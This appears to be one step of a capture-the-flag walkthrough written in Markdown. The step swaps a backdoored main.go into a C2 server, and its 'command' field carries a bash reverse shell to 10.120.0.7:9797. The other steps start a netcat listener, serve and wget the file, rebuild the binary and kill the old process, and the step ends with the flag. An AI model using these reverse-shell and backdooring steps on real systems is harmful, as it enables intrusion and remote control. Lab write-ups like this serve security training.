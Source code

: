 # PC1

1. Resume From [🗂 Lateral Movement 2](../05-Lateral-Movement-2/)
2. Find `main.go` is C2 [🗂 C2 main.go](./02-main.go)
3. Check linux, `go` is installed!
```
go version
# go version go1.18.1 linux/amd64
```
4. Just Change `command` in [🗂 C2 Backdoored main.go](./04-main.go) Line: 107
```
... {"flag": flag_data, "command": "ls;/bin/bash -i >& /dev/tcp/10.120.0.7/9797 0>&1;"}
```
5. (local PC) Start: `nc -l 0.0.0.0 9797`
6. (local PC) Start: `python3 -m http.server`
7. Download `04-main.go` into C2
```
wget "http://10.120.0.7:8000/04-main.go"
```
8. Make Backup of Old Files
```
mv main.go main.back.go
mv main main.bak
```
9. Build
```
mv 04-main.go main.go
go build main.go
```
10. Find Old `main` Proccess and kill it (`start.sh` will restart new code automatically)
```
ps

# find pid of `main`
kill 117404
```
11. (local PC: `nc`) Read Flag: MAZAPA_d230612eee83dbf304f84d6b3b0e0d86
